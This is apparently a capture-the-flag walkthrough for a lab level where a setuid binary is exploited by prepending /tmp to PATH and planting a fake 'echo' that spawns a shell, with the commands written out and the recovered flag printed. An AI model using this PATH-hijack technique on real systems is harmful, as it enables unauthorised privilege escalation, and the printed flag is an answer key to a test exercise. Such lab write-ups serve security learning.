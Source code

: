 # level03

It is possible to run almost any executable with elevated privileges in this exercise, I chose sh as it permits pretty much anything

1. Decompile binary, see that it runs as flag03
2. Exploit env vars usage by changing $PATH
3. Create an exploit binary to be executed by the original binary
4. Execute original binary and retrieve flag

in kali: scp executable from target machine

in kali: `/opt/retdec/bin/retdec-decompiler.py level03`

OPTION 1:

 `PATH=/tmp:$PATH`

 `echo /bin/sh > /tmp/echo`

 `chmod +x /tmp/echo`

 `./level03`

 `whoami`

 `getflag`

 gives: qi0maab88jeaj46qoumi7maus

OPTION 2:

 `cd /tmp`

 `vim main.c`

 Copy-Paste exploit.c

 `gcc main.c -o echo`

 `~/level03`

  `whoami`

 `getflag`

 gives: qi0maab88jeaj46qoumi7maus